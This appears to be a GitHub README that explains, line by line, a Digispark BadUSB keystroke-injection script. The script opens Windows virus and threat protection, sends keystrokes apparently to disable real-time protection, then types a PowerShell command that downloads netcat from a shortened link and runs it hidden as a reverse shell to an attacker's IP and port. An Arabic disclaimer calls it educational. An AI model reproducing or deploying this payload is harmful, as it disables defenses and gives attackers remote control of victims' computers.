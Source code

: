 This script uses the DigiKeyboard library to automate keystrokes and input text. Here is a breakdown of each line of code:

#include "DigiKeyboard.h"   This line includes the DigiKeyboard library.

void setup() {          This line starts the setup function.

DigiKeyboard.delay(1000);       This line pauses the script for 1 second.

DigiKeyboard.sendKeyStroke(KEY_S,MOD_GUI_LEFT);  This line sends a key press for the S key with the left GUI (Windows) key modifier.

DigiKeyboard.delay(1000);  This line pauses the script for 1 second.

DigiKeyboard.print("virus & threat protection");   This line inputs the text "virus & threat protection".

DigiKeyboard.delay(500);   This line pauses the script for 0.5 seconds.

DigiKeyboard.sendKeyStroke(KEY_ENTER);    This line sends a key press for the Enter key.

DigiKeyboard.delay(5000);    This line pauses the script for 5 seconds.

DigiKeyboard.sendKeyStroke(43);
DigiKeyboard.sendKeyStroke(43);    These four lines send key presses for the + key four times, which opens the settings menu in Windows 10.
DigiKeyboard.sendKeyStroke(43);
DigiKeyboard.sendKeyStroke(43);

DigiKeyboard.delay(700);   This line pauses the script for 0.7 seconds.

DigiKeyboard.sendKeyStroke(KEY_ENTER);  This line sends a key press for the Enter key.

DigiKeyboard.delay(700);   This line pauses the script for 0.7 seconds.

DigiKeyboard.sendKeyStroke(KEY_SPACE);   This line sends a key press for the Space key.

DigiKeyboard.delay(2000);    This line pauses the script for 2 seconds.

DigiKeyboard.sendKeyStroke(KEY_Y,MOD_ALT_LEFT);   This line sends a key press for the Y key with the left Alt key modifier.

DigiKeyboard.delay(1000);   This line pauses the script for 1 second.

DigiKeyboard.sendKeyStroke(KEY_F4 , MOD_ALT_LEFT);  This line sends a key press for the F4 key with the left Alt key modifier, which closes the current window.

DigiKeyboard.delay(500);     This line pauses the script for 0.5 seconds.

DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);   This line sends a key press for the R key with the left GUI (Windows) key modifier, which opens the Run dialog box.

DigiKeyboard.delay(700);  This line pauses the script for 0.7 seconds.

DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");  This line inputs a PowerShell command that downloads and executes the netcat.exe tool, which can be used for remote command execution.


DigiKeyboard.sendKeyStroke(KEY_ENTER);  This line sends a key press for the Enter key, which executes the PowerShell command.
 
void loop() {} This line starts the loop function, which is empty in this script. The loop function is not used in this script.
 



تحذير
كل شيء في هذا المستودع مخصص لأغراض تعليمية فقط انا لست مسؤولا عن اي تصرف خاطا منك. أنت مسؤول عن أفعالك باستخدام البرنامج النصي .
 

 



 

 






 





 






























